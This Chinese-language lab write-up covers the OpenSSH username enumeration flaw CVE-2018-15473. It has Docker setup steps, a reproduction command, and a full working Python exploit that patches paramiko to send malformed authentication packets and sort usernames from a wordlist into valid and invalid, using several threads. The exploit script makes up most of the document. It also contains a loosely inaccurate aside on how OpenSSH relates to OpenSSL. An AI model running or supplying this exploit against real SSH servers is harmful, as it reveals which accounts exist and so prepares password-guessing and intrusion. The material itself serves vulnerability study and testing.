

# OpenSSH 用户名枚举漏洞 CVE-2018-15473

## 漏洞描述

OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。

参考链接：

- http://openwall.com/lists/oss-security/2018/08/15/5
- https://github.com/Rhynorater/CVE-2018-15473-Exploit
- https://www.anquanke.com/post/id/157607

> OpenSSL是密码学库，主要设计目的是加密网络数据流（应用层和传输层）。OpenSSH是使用OpenSSL实现的Remote Shell。

## 环境搭建

Vulhub执行如下命令，编译及启动一个运行OpenSSH 7.7p1的容器：

```
docker-compose build
docker-compose up -d
```

环境启动后，我们在客户端执行`ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null root@your-ip -p20022`，输入密码`vulhub`，即可登录到容器中。

## 漏洞复现

使用[CVE-2018-15473-Exploit](https://github.com/Rhynorater/CVE-2018-15473-Exploit)，枚举字典中的用户名：

```
python3 sshUsernameEnumExploit.py --port 20022 --userList exampleInput.txt your-ip
```



可见，`root`是存在的用户，`rootInvalid`是不存在的用户。

> 此处环境建议为：
>
> - python-3.6
> - paramiko-2.4.1

## 漏洞POC

```python
#!/usr/bin/env python
import argparse
import logging
import paramiko
import multiprocessing
import socket
import string
import sys
import json
from random import randint as rand
from random import choice as choice
# store function we will overwrite to malform the packet
old_parse_service_accept = paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

# list to store 3 random usernames (all ascii_lowercase characters); this extra step is added to check the target
# with these 3 random usernames (there is an almost 0 possibility that they can be real ones)
random_username_list = []
# populate the list
for i in range(3):
    user = "".join(choice(string.ascii_lowercase) for x in range(rand(15, 20)))
    random_username_list.append(user)

# create custom exception
class BadUsername(Exception):
    def __init__(self):
        pass

# create malicious "add_boolean" function to malform packet
def add_boolean(*args, **kwargs):
    pass

# create function to call when username was invalid
def call_error(*args, **kwargs):
    raise BadUsername()

# create the malicious function to overwrite MSG_SERVICE_ACCEPT handler
def malform_packet(*args, **kwargs):
    old_add_boolean = paramiko.message.Message.add_boolean
    paramiko.message.Message.add_boolean = add_boolean
    result  = old_parse_service_accept(*args, **kwargs)
    #return old add_boolean function so start_client will work again
    paramiko.message.Message.add_boolean = old_add_boolean
    return result

# create function to perform authentication with malformed packet and desired username
def checkUsername(username, tried=0):
    sock = socket.socket()
    sock.connect((args.hostname, args.port))
    # instantiate transport
    transport = paramiko.transport.Transport(sock)
    try:
        transport.start_client()
    except paramiko.ssh_exception.SSHException:
        # server was likely flooded, retry up to 3 times
        transport.close()
        if tried < 4:
            tried += 1
            return checkUsername(username, tried)
        else:
            print('[-] Failed to negotiate SSH transport')
    try:
        transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
    except BadUsername:
            return (username, False)
    except paramiko.ssh_exception.AuthenticationException:
            return (username, True)
    #Successful auth(?)
    raise Exception("There was an error. Is this the correct version of OpenSSH?")

# function to test target system using the randomly generated usernames
def checkVulnerable():
    vulnerable = True
    for user in random_username_list:
        result = checkUsername(user)
        if result[1]:
            vulnerable = False
    return vulnerable

def exportJSON(results):
    data = {"Valid":[], "Invalid":[]}
    for result in results:
        if result[1] and result[0] not in data['Valid']:
            data['Valid'].append(result[0])
        elif not result[1] and result[0] not in data['Invalid']:
            data['Invalid'].append(result[0])
    return json.dumps(data)

def exportCSV(results):
    final = "Username, Valid\n"
    for result in results:
        final += result[0]+", "+str(result[1])+"\n"
    return final

def exportList(results):
    final = ""
    for result in results:
        if result[1]:
            final+=result[0]+" is a valid user!\n"
        else:
            final+=result[0]+" is not a valid user!\n"
    return final

# assign functions to respective handlers
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = malform_packet
paramiko.auth_handler.AuthHandler._handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = call_error

# get rid of paramiko logging
logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

arg_parser = argparse.ArgumentParser()
arg_parser.add_argument('hostname', type=str, help="The target hostname or ip address")
arg_parser.add_argument('--port', type=int, default=22, help="The target port")
arg_parser.add_argument('--threads', type=int, default=5, help="The number of threads to be used")
arg_parser.add_argument('--outputFile', type=str, help="The output file location")
arg_parser.add_argument('--outputFormat', choices=['list', 'json', 'csv'], default='list', type=str, help="The output file location")
group = arg_parser.add_mutually_exclusive_group(required=True)
group.add_argument('--username', type=str, help="The single username to validate")
group.add_argument('--userList', type=str, help="The list of usernames (one per line) to enumerate through")
args = arg_parser.parse_args()

def main():
    sock = socket.socket()
    try:
        sock.connect((args.hostname, args.port))
        sock.close()
    except socket.error:
        print('[-] Connecting to host failed. Please check the specified host and port.')
        sys.exit(1)

    # first we run the function to check if host is vulnerable to this CVE
    if not checkVulnerable():
        # most probably the target host is either patched or running a version not affected by this CVE
        print("Target host most probably is not vulnerable or already patched, exiting...")
        sys.exit(0)
    elif args.username: #single username passed in
        result = checkUsername(args.username)
        if result[1]:
            print(result[0]+" is a valid user!")
        else:
            print(result[0]+" is not a valid user!")
    elif args.userList: #username list passed in
        try:
            f = open(args.userList)
        except IOError:
            print("[-] File doesn't exist or is unreadable.")
            sys.exit(3)
        usernames = map(str.strip, f.readlines())
        f.close()
        # map usernames to their respective threads
        pool = multiprocessing.Pool(args.threads)
        results = pool.map(checkUsername, usernames)
        try:
            if args.outputFile:
                outputFile = open(args.outputFile, "w")
        except IOError:
            print("[-] Cannot write to outputFile.")
            sys.exit(5)
        if args.outputFormat=='json':
            if args.outputFile:
                outputFile.writelines(exportJSON(results))
                outputFile.close()
                print("[+] Results successfully written to " + args.outputFile + " in JSON form.")
            else:
                print(exportJSON(results))
        elif args.outputFormat=='csv':
            if args.outputFile:
                outputFile.writelines(exportCSV(results))
                outputFile.close()
                print("[+] Results successfully written to " + args.outputFile + " in CSV form.")
            else:
                print(exportCSV(results))
        else:
            if args.outputFile:
                outputFile.writelines(exportList(results))
                outputFile.close()
                print("[+] Results successfully written to " + args.outputFile + " in List form.")
            else:
                print(exportList(results))
    else: # no usernames passed in
        print("[-] No usernames provided to check")
        sys.exit(4)

if __name__ == '__main__':
    main()
```

